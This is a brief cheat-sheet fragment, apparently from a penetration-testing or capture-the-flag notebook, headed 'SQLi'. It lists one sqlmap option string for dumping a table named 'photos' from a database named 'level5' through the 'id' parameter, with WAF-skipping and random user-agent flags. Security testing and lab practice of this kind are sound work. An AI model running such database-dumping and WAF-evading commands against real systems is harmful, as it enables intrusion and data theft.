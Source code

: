 # SQLi


- SQLmap tricks:

--method GET --dump -D level5 -T photos -p id --code 200 --skip-waf --random-agent --threads 10 -o
